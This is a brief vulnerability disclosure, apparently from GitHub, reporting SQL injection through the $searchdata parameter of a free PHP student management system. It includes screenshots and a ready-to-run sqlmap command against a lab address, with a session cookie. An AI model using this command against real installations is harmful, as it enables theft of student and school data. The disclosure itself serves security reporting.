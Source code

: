 vendor：https://www.sourcecodester.com/

download link：https://www.sourcecodester.com/php/16137/online-student-management-system-php-free-download.html

Vulnerability trigger parameter: $searchdata

The process of vulnerability discovery is as follows：

![image](https://user-images.githubusercontent.com/30823782/220948201-018d0ecb-3097-42b0-8959-a5e37b3d805c.png)


exp

```
sqlmap.py -u "http://192.168.31.50/eduauth/student/search.php" --data "searchdata=1&search=" --cookie "PHPSESSID=po9tmu5iqkuvffteh4b6rur4g0"
```
![image](https://user-images.githubusercontent.com/30823782/220948245-9253bd26-9cc3-45fa-adab-cf7ce9e94f53.png)

